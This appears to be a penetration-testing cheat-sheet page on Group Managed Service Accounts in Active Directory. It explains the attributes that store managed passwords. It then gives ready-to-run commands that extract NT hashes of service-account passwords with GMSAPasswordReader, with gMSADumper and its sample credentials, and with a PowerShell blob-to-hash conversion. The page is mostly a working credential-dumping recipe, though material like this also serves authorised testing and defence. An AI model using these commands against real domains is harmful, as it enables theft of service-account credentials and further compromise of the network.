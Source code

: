 # GSMA Passwords

## <mark style="color:red;">**GSMA**</mark>

#### User accounts created to be used as service accounts rarely have their password changed. Group Managed Service Accounts (GMSAs) provide a better approach (starting in the Windows 2012 timeframe). The password is managed by AD and automatically changed.

## <mark style="color:red;">**GMSA Attributes in the Active Directory**</mark>

* **msDS-GroupMSAMembership** (PrincipalsAllowedToRetrieveManagedPassword) - stores the security principals that can access the GMSA password.
* **msds-ManagedPassword** - This attribute contains a BLOB with password information for group-managed service accounts.
* **msDS-ManagedPasswordId** - This constructed attribute contains the key identifier for the current managed password data for a group MSA.
* **msDS-ManagedPasswordInterval** - This attribute is used to retrieve the number of days before a managed password is automatically changed for a group MSA.

### <mark style="color:orange;">**Extract NT hash from the Active Directory**</mark>

GMSAPasswordReader (C#)

```python
# https://github.com/rvazarkar/GMSAPasswordReader
GMSAPasswordReader.exe --accountname SVC_SERVICE_ACCOUNT
```

[gMSADumper (Python)](https://github.com/micahvandeusen/gMSADumper)

```python
# https://github.com/micahvandeusen/gMSADumper
python3 gMSADumper.py -u User -p Password1 -d domain.local
```

Active Directory Powershell

```powershell
$gmsa =  Get-ADServiceAccount -Identity 'SVC_SERVICE_ACCOUNT' -Properties 'msDS-ManagedPassword'
$blob = $gmsa.'msDS-ManagedPassword'
$mp = ConvertFrom-ADManagedPasswordBlob $blob
$hash1 =  ConvertTo-NTHash -Password $mp.SecureCurrentPassword
```

[gMSA\_Permissions\_Collection.ps1](https://gist.github.com/kdejoyce/f0b8f521c426d04740148d72f5ea3f6f#file-gmsa\_permissions\_collection-ps1) based on Active Directory PowerShell module
